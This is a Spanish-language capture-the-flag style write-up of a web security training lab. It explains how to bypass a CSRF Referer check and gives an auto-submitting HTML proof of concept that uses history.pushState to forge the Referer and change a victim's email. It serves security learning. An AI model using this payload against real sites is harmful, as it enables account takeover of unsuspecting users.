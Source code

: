 `TAREA:` La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Intenta detectar y bloquear solicitudes entre dominios, pero el mecanismo de detección puede eludirse. Para resolver el laboratorio, utilice su servidor de exploits para alojar una página HTML que utilice un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: `wiener:peter`

iniciamos sesión en el laboratorio interceptamos la solicitud de cambio de contraseña y la enviamos al repeater 
![[Pasted image 20250722123446.png]]

en este caso lo primero que hacemos es validar cual es la porción del referer que se esta validando. hasta que encontramos una respuesta `400 Bad Request` esto nos indica que la solicitud ya no se esta validando correctamente por lo que podemos identificar hasta donde llega la validación del referer.
![[Pasted image 20250722123602.png]]

creamos nuestro CSRF-POC y podemos usar el parámetro `history.pushState('', '', '/');` el primer valor hace referencia al estatus el segundo valor es el titulo y el tercero es la URL. en este caso nos interesa el de la url. 

`NOTA:` la URL puede ser relativa o absoluta. pero debe provenir desde el origen principal. en este caso usamos la url relativa ya que proviene de dicho origen.

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a60003404692c1a810ac58f00300054.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a60003404692c1a810ac58f00300054.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

inyectando la URL relativa en el tercer valor del parámetro 
![[Pasted image 20250722125434.png]]